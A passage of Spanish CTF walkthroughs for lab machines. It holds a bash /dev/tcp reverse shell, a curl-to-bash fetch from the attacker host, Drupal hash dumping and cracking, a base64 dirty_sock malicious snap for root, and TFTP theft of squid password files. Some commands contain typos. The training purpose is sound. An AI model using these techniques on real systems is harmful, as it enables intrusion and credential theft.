\CommentTok{#Output}
\OperatorTok{>} \ExtensionTok{10.10.10.233}
\end{Highlighting}
\end{Shaded}

Entablamos ahora una reverse shell para sacarse de este contexto.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  druppalgeddon2 shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.20/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Esto no functiona porque le commando contiene \textbf{bad chars}. Como la maquina no tiene \textbf{nc} ni \textbf{ncat} la tecnica seria la siguiente:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un archivo \emph{index.html} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{#!/bin/bash}

\NormalTok{bash -i >}\ErrorTok{&}\NormalTok{ /dev/tcp/10.10.14.20/443 0>}\ErrorTok{&}\NormalTok{1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servidor web con \emph{python}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la drupalgeddon2 shell

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s 10.10.14.20 }\KeywordTok{|} \FunctionTok{bash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

ya esta\ldots{}

\hypertarget{tratamiento-de-la-tty-2}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-2}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\end{Highlighting}
\end{Shaded}

En este caso no nos va el tratamiento de la \textbf{TTY}. En este caso lo que hacemos es utilizar el \texttt{rlwrap\ nc\ -nlvp\ 443}

\hypertarget{investigamos-la-maquina-1}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina-1}}
\addcontentsline{toc}{subsection}{Investigamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pwd}
\CommentTok{#Output}
\ExtensionTok{/var/www/html}

\FunctionTok{ls}\NormalTok{ -l}
\CommentTok{#Output}
\ExtensionTok{muchas}\NormalTok{ cosas}

\FunctionTok{grep}\NormalTok{ -r -E -i }\StringTok{"user|pass|key"}
\CommentTok{#Output}
\ExtensionTok{muchas}\NormalTok{ cosas}

\FunctionTok{grep}\NormalTok{ -r -E -i }\StringTok{"username|pass|key"}
\CommentTok{#Output}
\ExtensionTok{muchas}\NormalTok{ cosas}
\end{Highlighting}
\end{Shaded}

Como hay muchas cosas y es difficil de analizar usamos el commando \texttt{find} y vamos quitando con el commando \texttt{grep\ -v} las cosas que no
nos interressan poco a poco.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{find}\NormalTok{ \textbackslash{}-type -f }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type -f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"themes"}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type -f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v -E }\StringTok{"themes|modules"}
\end{Highlighting}
\end{Shaded}

Ahora ya se puede investigar manualmente. Apuntamos los recursos que parecen interessantes.

\begin{itemize}
\tightlist
\item
  authorize.php
\item
  cron.php
\item
  includes/database
\item
  includes/password.inc
\item
  sites/default/
\end{itemize}

Lo miramos hasta que encontremos cosas interessantes. En un fichero encontramos un user \textbf{drupaluser} y su contraseña.

Miramos los usuarios de la maquina

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep} \StringTok{"sh$"}\NormalTok{ /etc/passwd}
\CommentTok{#Output}
\ExtensionTok{root}
\ExtensionTok{brucetherealadmin}
\end{Highlighting}
\end{Shaded}

Como el servicio ssh esta abierto miramos si la contraseña functiona con el usuario brucetherealadmin pero no functiona.

Como hemos visto ficheros \emph{mysql} intentamos connectar con el \textbf{drupaluser} y functiona.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'show databases;'}
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'use drupal; show tables;'}
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'use drupal; describe users;'}
\ExtensionTok{mysql}\NormalTok{ -u }\StringTok{'drupaluser'}\NormalTok{ -p }\StringTok{"SLKDENkldajsn!!$"}\NormalTok{ -e }\StringTok{'use drupal; select name,pass from users;'}
\end{Highlighting}
\end{Shaded}

Encontramos el usuario `brucetherealadmin' y su contraseña encryptada.

\hypertarget{john-1}{%
\subsection*{John}\label{john-1}}
\addcontentsline{toc}{subsection}{John}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  copiamos el hash en un fichero llamado \texttt{hash}
\item
  john --wordlist=/usr/share/wordlists/rockyout.txt hash
\end{enumerate}

Ya tenemos contraseña para el usuario \emph{brucetherealadmin}

\hypertarget{ssh}{%
\subsection*{SSH}\label{ssh}}
\addcontentsline{toc}{subsection}{SSH}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ brucetherealadmin@10.10.10.233}
\end{Highlighting}
\end{Shaded}

ya tenemos la flag user.txt

\hypertarget{privilege-escalation-2}{%
\section*{Privilege Escalation}\label{privilege-escalation-2}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{enumeracion-del-usuario-en-la-maquina-victima-2}{%
\subsection*{Enumeracion del usuario en la maquina victima}\label{enumeracion-del-usuario-en-la-maquina-victima-2}}
\addcontentsline{toc}{subsection}{Enumeracion del usuario en la maquina victima}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Vemos que podemos lanzar snap como root.

Buscamos en google snap hook exploit .snap file y encontramos el link siguiente
\href{https://initblog.com/2019/dirty-sock/}{Linux Privilege Escalation via snapd (dirty\_sock exploit)}. Econtramos
un hook que genera un nuevo local user. Lo miramos y lo reutilizamos usando python.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/}
\StringTok{/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh}
\StringTok{ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5}
\StringTok{TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo}
\StringTok{T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl}
\StringTok{Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt}
\StringTok{ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv}
\StringTok{ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n}
\StringTok{L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt}
\StringTok{b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe}
\StringTok{rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj}
\StringTok{rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA}
\StringTok{AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2}
\StringTok{XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5}
\StringTok{RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA}
\StringTok{AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw"} \KeywordTok{|} \FunctionTok{xargs} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{' '}
\end{Highlighting}
\end{Shaded}

copiamos el output y recreamos el paquete snap malicioso

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\ExtensionTok{pytho}\NormalTok{ -c }\StringTok{'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD}
\StringTok{//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29}
\StringTok{jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1}
\StringTok{EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q}
\StringTok{gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N}
\StringTok{1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB}
\StringTok{leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA}
\StringTok{gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA}
\StringTok{BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F}
\StringTok{qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4}
\StringTok{wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj}
\StringTok{NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt}
\StringTok{vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA}
\StringTok{AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="'} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d }\OperatorTok{>}\NormalTok{ setenso.snap}

\FunctionTok{sudo}\NormalTok{ /usr/bin/snap install setenso.snap --devmode}
\FunctionTok{cat}\NormalTok{ /etc/passwd}
\FunctionTok{sudo}\NormalTok{ dirty_sock }\OperatorTok{>}\NormalTok{ password dirty_sock}
\FunctionTok{sudo}\NormalTok{ su }\OperatorTok{>}\NormalTok{ password dirty_sock}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

\hypertarget{joker}{%
\chapter*{Joker}\label{joker}}
\addcontentsline{toc}{chapter}{Joker}

\hypertarget{introduccion-3}{%
\section*{Introduccion}\label{introduccion-3}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 26/07/2021 se llama Joker.

El replay del live se puede ver en \href{https://www.twitch.tv/videos/1098850596}{Twitch: S4vitaar Joker maquina}

\hypertarget{enumeracion-3}{%
\section*{Enumeracion}\label{enumeracion-3}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-3}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-3}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-3}{%
\subsubsection*{Ping}\label{ping-3}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.21}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina linux

\hypertarget{nmap-3}{%
\subsubsection*{Nmap}\label{nmap-3}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.21 }
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.21 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,3128 10.10.10.21 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Accesso directo & usuario y contraseña\tabularnewline
3128 & squid-proxy & Browsear la web por este puerto & Checkear el exploit\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{browsear-la-web-por-el-puerto-3128}{%
\subsubsection*{Browsear la web por el puerto 3128}\label{browsear-la-web-por-el-puerto-3128}}
\addcontentsline{toc}{subsubsection}{Browsear la web por el puerto 3128}

Browseando la web con el url \texttt{http://10.10.10.21:3128} no da un error que es normal porque no passamos por el \textbf{squid-proxy}.

Utilizamos el \textbf{FoxyProxy} para añadir las credenciales del Proxy. Como no tenemos el usuario y la contraseña, dejamos estos datos
vacios.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/squid-foxy-no-creds} \caption{foxyproxy con squid proxy}\label{fig:unnamed-chunk-5}
\end{figure}

\hypertarget{uso-de-curl-con-proxy}{%
\subsubsection*{Uso de curl con proxy}\label{uso-de-curl-con-proxy}}
\addcontentsline{toc}{subsubsection}{Uso de curl con proxy}

La idea aqui es utilizar la heramienta \textbf{curl} con en argumento \texttt{-\/-proxy} para ver si el puerto 80 esta abierto.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s http://127.0.0.1 --proxy http://10.10.10.21:3128 }\KeywordTok{|} \ExtensionTok{html2text}
\end{Highlighting}
\end{Shaded}

Hay un error de typo \textbf{ACCESS DENIED}, quiere decir que necessitamos un usuario y una contraseña.

Como nada esta abierto intentamos scannear la maquina por UDP

\hypertarget{nmap-upd-scan}{%
\subsubsection*{NMAP UPD Scan}\label{nmap-upd-scan}}
\addcontentsline{toc}{subsubsection}{NMAP UPD Scan}

Como los scan de \textbf{NMAP} en UDP tarda un buen rato, decidimos ir a por los puertos mas interessantes.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sU -p69,161 10.10.10.21 -oN udpScan}
\end{Highlighting}
\end{Shaded}

encontramos el puerto del tftp que esta abierto

\hypertarget{tftp}{%
\subsubsection*{TFTP}\label{tftp}}
\addcontentsline{toc}{subsubsection}{TFTP}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{tftp}\NormalTok{ 10.10.10.21}
\end{Highlighting}
\end{Shaded}

Nos podemos connectar pero no podemos cojer ficheros como \texttt{/etc/passwd}, \texttt{/etc/hosts} y otros. Tiramos por el fichero de config de squid.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{get}\NormalTok{ /etc/squid/squid.conf}
\end{Highlighting}
\end{Shaded}

\hypertarget{check-squid.conf-file}{%
\subsubsection*{Check squid.conf file}\label{check-squid.conf-file}}
\addcontentsline{toc}{subsubsection}{Check squid.conf file}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ squid.conf }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{"^#"} \KeywordTok{|} \FunctionTok{sed} \StringTok{'/^\textbackslash{}s*$/d'}
\end{Highlighting}
\end{Shaded}

Vemos que hay un fichero password. Lo descargamos desde el \textbf{tftp}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{get}\NormalTok{ /etc/squid/passwords}
\end{Highlighting}
\end{Shaded}

Lo analysamos y encontramos un usuario y una contraseña encryptada.

\hypertarget{vulnerability-assessment-3}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-3}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{john-2}{%
\subsection*{John}\label{john-2}}
\addcontentsline{toc}{subsection}{John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/share/wordlists/rockyou.txt passwords}
\end{Highlighting}
\end{Shaded}

Ya hemos crackeado la contraseña. Intentamos connectar por ssh pero no functiona.

Pues ponemos las credenciales en el foxyproxy.

\hypertarget{connectamos-por-la-web-a-la-127.0.0.1}{%
\subsection*{Connectamos por la web a la 127.0.0.1}\label{connectamos-por-la-web-a-la-127.0.0.1}}
\addcontentsline{toc}{subsection}{Connectamos por la web a la 127.0.0.1}

Hay una pagina que propone shortear una url. Vamos a testear el servicio web

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos creamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En el servicio intentamos shortear la url \texttt{http://10.10.14.20/test}
\end{enumerate}

No hace nada. Vemos en el codigo fuente que hay un recurso \texttt{/list}. La idea aqui es applicar fuzzing. Como tenemos que passar
por un proxy, vamos a utilizar \textbf{Burp} para connectar el fuzzer con el proxy.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un Proxy Server.

  \begin{itemize}
  \item
    En la pagina \textbf{User options} de Burp, creamos un proxy server

    \begin{figure}
      
\includegraphics[width=0.9\linewidth]{images/burp-create-proxy-server} \caption{BurpSuite: create proxy server}\label{fig:unnamed-chunk-6}
      \end{figure}
  \end{itemize}
\item
  Añadir el puerto 80 para utilizar \textbf{curl} y \textbf{wfuzz}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/burp-add-port-80-1} \caption{BurpSuite: create proxy server 1}\label{fig:unnamed-chunk-7}
   \end{figure}

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/burp-add-port-80-2} \caption{BurpSuite: create proxy server 2}\label{fig:unnamed-chunk-8}
   \end{figure}
\item
  Testeamos con \textbf{curl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s http://127.0.0.1 }\KeywordTok{|} \ExtensionTok{html2text}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya no nos pone el mensaje de error \texttt{Conexion\ reusada}, quiere decir que el server proxy que hemos creado con
BurpSuite functiona. Ya podemos applicar fuzzing.

\hypertarget{wfuzz-2}{%
\subsection*{WFUZZ}\label{wfuzz-2}}
\addcontentsline{toc}{subsection}{WFUZZ}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2-3-medium.txt http://127.0.0.1/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos el recurse \texttt{/console}

\hypertarget{consola-interactiva}{%
\subsection*{Consola Interactiva}\label{consola-interactiva}}
\addcontentsline{toc}{subsection}{Consola Interactiva}

Estamos en frente de una consola interactiva donde se puede executar code en python

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{import}\NormalTok{ os}

\NormalTok{os.system(}\StringTok{'whoami'}\NormalTok{)}
\CommentTok{#Output}
\DecValTok{0}
\end{Highlighting}
\end{Shaded}

